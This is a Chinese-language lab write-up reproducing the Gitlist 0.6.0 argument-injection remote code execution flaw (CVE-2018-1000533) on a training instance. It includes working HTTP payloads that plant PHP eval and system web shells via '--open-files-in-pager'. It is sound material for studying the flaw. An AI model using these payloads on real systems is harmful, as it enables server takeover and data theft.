 ## 1. 漏洞介绍

gitlist是一款使用PHP开发的图形化git仓库查看工具。在其0.6.0版本中，存在一处命令参数注入问题，可以导致远程命令执行漏洞

[vulhub漏洞复现-Gitlist 0.6.0(cve-2018-1000533)远程命令执行漏洞\_vulhub cve-2018-1000533-CSDN博客](https://blog.csdn.net/weixin_54648419/article/details/120875311)

## 2. 漏洞复现

漏洞测试

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312241750474.png)

写个 shell

```http
POST /example/tree/a/search HTTP/1.1
Host: eci-2zebexjk110kip2d9l72.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Origin: http://eci-2zebexjk110kip2d9l72.cloudeci1.ichunqiu.com
Connection: close
Referer: http://eci-2zebexjk110kip2d9l72.cloudeci1.ichunqiu.com/example/
Upgrade-Insecure-Requests: 1

query=--open-files-in-pager=echo '<?php @eval($_POST["cmd"]); ?>' > /var/www/html/test.php;
```

执行完后蚁剑连接

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312241751886.png)

或者浏览器直接读取 flag，但不要直接令 `cmd=cat /flag` ，注意 php 中 eval 和 system 函数的区别。

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312241801498.png)

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312241811555.png)

亦或直接写入 system 函数

```PHP
query=--open-files-in-pager=echo '<?php system($_POST["cmd"]); ?>' > /var/www/html/system.php;
```

![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312241801266.png)
